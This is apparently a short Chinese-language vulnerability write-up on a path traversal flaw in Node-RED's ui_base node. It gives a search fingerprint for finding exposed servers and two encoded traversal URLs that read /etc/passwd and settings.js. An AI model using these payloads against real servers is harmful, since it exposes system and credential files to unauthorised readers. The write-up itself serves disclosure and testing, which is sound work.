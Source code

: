 # 

# Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

```
Node-RED
```

## 网络测绘

```
title="Node-RED"
```

## 漏洞复现

访问页面



![](./images/202202101928889.png)

验证POC



```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![](./images/202202101928013.png)



![](./images/202202101928766.png)
